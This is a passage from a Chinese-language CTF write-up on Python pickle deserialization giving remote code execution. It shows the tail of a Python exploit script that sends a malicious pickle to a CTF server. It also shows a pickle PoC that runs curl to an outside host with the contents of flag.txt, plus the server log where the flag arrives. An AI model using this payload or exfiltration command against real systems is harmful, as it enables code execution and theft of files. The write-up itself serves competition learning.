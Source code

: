```
    cPickle.loads(exploit_code)
 
if __name__ == '__main__':
    shellcode = serialize_exploit()
    print shellcode
 
    soc = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    soc.connect(("ganon.39586ebba722e94b.ctf.land", 8000))
    print soc.recv(1024)
 
    soc.send(shellcode)
    print soc.recv(1024)
soc.close()
```

**漏洞利用PoC**



```
# python python_pickle_poc.py
cposix
system
p1
(S"curl https://crowdshield.com/rce.txt?`cat flag.txt`"
p2
tp3
Rp4
.
```

让我惊讶的是，这份漏洞利用代码不仅能够正常工作，而且我还可以直接在Apache日志中查看到flag的内容！

**远程Apache服务器日志**

```
34.214.16.74 - - [03/Sep/2017:11:15:02 -0700] "GET /rce.txt?UsuallyLinkPrefersFrostedFlakes HTTP/1.1" 404 2102 "-" "curl/7.38.0"
```

**<br>**

**总结**

以上就是本文章的全部内容了，我们给大家介绍了两个Python反序列化漏洞样本，而我们可以利用这种漏洞来在远程主机/应用程序中实现远程代码执行（RCE）。我个人对CTF比赛非常感兴趣，在比赛的过程中我不仅能找到很多乐趣，而且还可以学到很多东西，但是出于时间和其他方面的考虑，我不可能将所有的精力都放在CTF上，但我建议大家有机会的话多参加一些这样的夺旗比赛。

**<br>**

**附录**

我们的团队名叫“SavageSubmarine”，我们再次比赛中的最终排名为第七名。

[![](https://p5.ssl.qhimg.com/t0113457f15a2619692.png)](https://p5.ssl.qhimg.com/t0113457f15a2619692.png)

